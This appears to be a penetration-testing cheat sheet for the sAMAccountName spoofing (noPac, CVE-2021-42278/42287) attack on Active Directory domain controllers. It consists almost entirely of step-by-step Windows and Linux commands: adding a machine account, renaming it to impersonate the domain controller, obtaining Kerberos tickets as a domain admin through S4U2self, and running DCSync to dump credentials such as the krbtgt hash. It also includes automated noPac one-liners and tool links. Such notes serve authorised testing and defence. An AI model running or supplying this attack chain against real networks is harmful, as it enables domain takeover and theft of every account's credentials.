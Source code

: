 # sAMAccountName spoofing

## Windows

### add computer account
```
New-MachineAccount -MachineAccount <newComputer> -Password $(ConvertTo-SecureString '<newPassword>' -AsPlainText -Force)
```

### set serviceprincipalname to empty value
```
Set-DomainObject -Identity <newComputer> -Clear serviceprincipalname
```

### change sAMAccountName to Domain Controllers name without trailing $
```
Set-MachineAccountAttribute -MachineAccount "<newComputer>" -Value "<dcNo$>" -Attribute samaccountname -Verbose
```

### request a TGT for new computer account
```
Rubeus.exe asktgt /user:"<dcNo$>" /password:"<newPassword>" /domain:"<domain>" /dc:"<fqdnDc>" /nowrap
```

### reset the controlled machine account sAMAccountName to its old value
```
Set-MachineAccountAttribute -MachineAccount "dcNo$" -Value "<newComputer>" -Attribute samaccountname -Verbose
```

### obtain a service ticket with S4U2self by presenting the previous TGT
```
Rubeus.exe s4u /self /impersonateuser:"<domainAdmin>" /altservice:"cifs/<fqdnDc>" /dc:"<fqdnDc>" /ptt /ticket:<base64>
```

### dcsync
```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<domain> /kdc:<fqdnDc> /user:<targetUser>"'
```

### automatic - receive TGT of vulnerable domain controller
```
.\noPac.exe scan -domain <domain> -user <user> -pass <password>
```

## Linux

### add computer account
```
impacket-addcomputer -computer-name '<newComputer>' -computer-pass '<newComputerPassword>' -dc-ip <dcIp> '<domain>/<user>:<password>'
```

### set serviceprincipalname to empty value
```
impacket-addspn -u '<domain>\<user>' -p '<password>' -t '<newComputer>' -dc-ip <dcIp>
```

### change sAMAccountName to Domain Controllers name without trailing $
```
renameMachine -current-name '<newComputer$>' -new-name '<domainController>' -dc-ip <dcIp> '<domain>/<user>:<password>'
```

### request a TGT for new computer account
```
impacket-getTGT -dc-ip <dcIp> '<domain>/<domainController>:<newComputerPassword>'
```

### reset the controlled machine account sAMAccountName to its old value
```
renameMachine -current-name '<domainController>' -new-name '<newComputer$>' -dc-ip <dcIp> '<domain>/<user>:<password>'
```

### obtain a service ticket with S4U2self by presenting the previous TGT
```
KRB5CCNAME='domainController.ccache' impacket-GetST -self -impersonate '<targetAdmin>' -spn 'cifs/<domainController>.<domain>' -k -no-pass -dc-ip <dcIp> '<domain>'/'<domainController>'
```

### dcsync
```
KRB5CCNAME='targetAdmin.ccache' impacket-secretsdump -just-dc-user 'krbtgt' -k -no-pass -dc-ip <dcIp> @<fqdn>
```

### automatic - receive TGT of vulnerable domain controller
```
python noPac.py <domain>/<user>:<password> -dc-ip <dcIp>
```

### References
https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html  
https://github.com/cube0x0/noPac  
https://github.com/Ridter/noPac  
https://raw.githubusercontent.com/AdrianVollmer/PowerSploit/master/Recon/PowerView.ps1  
https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1  
https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1  
https://raw.githubusercontent.com/SecureAuthCorp/impacket/b4fbcf9196e9b6098edae0ae7794005d2e138ccd/examples/renameMachine.py  
https://www.cvedetails.com/cve/CVE-2021-42278  
https://www.cvedetails.com/cve/CVE-2021-42287  
https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing  

